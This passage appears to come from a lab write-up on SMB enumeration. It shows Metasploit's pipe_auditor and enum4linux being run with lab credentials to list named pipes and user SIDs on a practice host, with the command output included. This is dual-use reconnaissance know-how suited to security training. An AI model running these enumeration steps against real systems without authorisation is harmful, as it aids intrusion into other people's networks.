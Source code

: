 Great! now we can download the file and view the information in our local system by unzipping it using the following command:

```sh
tar -xf flag.tar.gz
```

Now we're going to enumerate pipes using Metasploit:

> In SMB (Server Message Block) protocol, pipes are a type of communication mechanism that enables inter-process communication between different processes running on a server. Pipes can be used to send various types of data and commands, including remote procedure calls (RPCs), file names and data, and messages between processes. In the context of SMB enumeration, identifying named pipes can be valuable as attackers can use them to gain access to sensitive information, execute commands, and perform other malicious activities.

```sh
msf5 > use auxiliary/scanner/smb/pipe_auditor 
msf5 auxiliary(scanner/smb/pipe_auditor) > set smbuser admin
smbuser => admin
msf5 auxiliary(scanner/smb/pipe_auditor) > set smbpass password1
smbpass => password1
msf5 auxiliary(scanner/smb/pipe_auditor) > set rhosts 192.9.143.3
rhosts => 192.9.143.3
msf5 auxiliary(scanner/smb/pipe_auditor) > run

[+] 192.9.143.3:139       - Pipes: \netlogon, \lsarpc, \samr, \eventlog, \InitShutdown, \ntsvcs, \srvsvc, \wkssvc
[*] 192.9.143.3:          - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Here we got a list of these named pipes.

The last thing we can do is get the SID of different users:

<pre class="language-sh"><code class="lang-sh">root@attackdefense:~# enum4linux <a data-footnote-ref href="#user-content-fn-6">-r</a> -u "admin" -p "password1" 192.9.143.3
.
.
[+] Enumerating users using SID S-1-22-2 and logon username 'admin', password 'password1'
S-1-22-2-1000 Unix Group\admins (Domain Group)
S-1-22-2-1001 Unix Group\Maintainer (Domain Group)
S-1-22-2-1002 Unix Group\Reserved (Domain Group)
S-1-22-2-1003 Unix Group\Testing (Domain Group)
[+] Enumerating users using SID S-1-22-1 and logon username 'admin', password 'password1'
S-1-22-1-1000 Unix User\shawn (Local User)
S-1-22-1-1001 Unix User\jane (Local User)
S-1-22-1-1002 Unix User\nancy (Local User)
S-1-22-1-1003 Unix User\admin (Local User)
.
.
</code></pre>

Here we got SIDs of multiple users.

[^1]: 

[^2]: login username

[^3]: Password List

[^4]: Target Host

[^5]: Protocol

[^6]: ensures that we are lookinbg for users
